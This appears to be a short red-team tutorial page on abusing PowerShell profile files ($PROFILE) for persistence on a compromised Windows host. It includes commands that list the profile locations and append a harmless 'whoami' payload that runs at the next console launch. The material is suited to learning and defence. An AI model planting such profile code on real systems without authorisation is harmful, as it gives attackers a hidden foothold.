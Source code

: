 # Powershell Profile Persistence

It's possible to use powershell profiles for persistence and/or privilege escalation.

## Execution

There are four places you can abuse the powershell profile, depending on the privileges you have:

```csharp
$PROFILE | select *
```

![](../../.gitbook/assets/image%20%28132%29.png)

Let's add the code to a `$profile` variable \(that expands to the current user's profile file\) that will get executed the next time the compromised user launches a powershell console:

{% code title="attacker@target" %}
```csharp
echo "whoami > c:\temp\whoami.txt" > $PROFILE
cat $PROFILE
```
{% endcode %}

![](../../.gitbook/assets/image%20%2837%29.png)

Once the compromised user launches powershell, our code gets executed:

![](../../.gitbook/assets/image%20%28217%29.png)

{% hint style="warning" %}
If the user is not using profiles, the technique will stick out immediately due to the "loading personal and system profiles..." message at the top.
{% endhint %}

## References

{% embed url="https://attack.mitre.org/techniques/T1504/" %}

